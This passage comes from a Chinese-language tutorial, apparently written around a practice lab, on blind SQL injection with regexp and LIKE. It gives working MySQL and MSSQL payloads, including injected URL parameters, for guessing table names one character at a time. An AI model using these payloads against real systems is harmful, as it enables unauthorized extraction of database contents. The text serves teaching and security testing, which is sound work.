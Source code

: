 4. 表达式的更换如下
```
expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE
```
这时说明表名为 news ，要验证是否是该表明 正则表达式为 '^news$' ，但是没这必要 直接判断 table_name = ’news‘ 不就行了。

5. 接下来猜解其它表了 
 
 **（只需要修改 limit 1,1 -> limit 2,1 就可以对接下来的表进行盲注了）这里是错误的！！！**

regexp 匹配的时候会在所有的项都进行匹配。例如：

security 数据库的表有多个， users ， email 等

```
select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1); 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1); 不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1); 不正确
```
实验表明：在 `limit 0,1` 下， regexp 会匹配所有的项。我们在使用 regexp 时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而此时 `limit 0,1` 此时是对于 where table_schema='security' limit 0,1 。 table_schema='security' 已经起到了限定作用了， limit 有没有已经不重要了。

-----------------------------------------------MSSQL---------------------------------------------------

MSSQL 所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词

    default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )

该查询语句中， select top 1 是一个组合哦，不要看错了。

如果要查询其它的表名，由于不能像 mysql 哪样用 limit x,1 ，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如  查询第二行的表名：

    default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )

表达式的顺序：

    'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符克用如下表达式

    'news%' TRUE -> 'news_' FALSE

同理可以用相同的方法获取字段，值。这里就不再详细描述了。








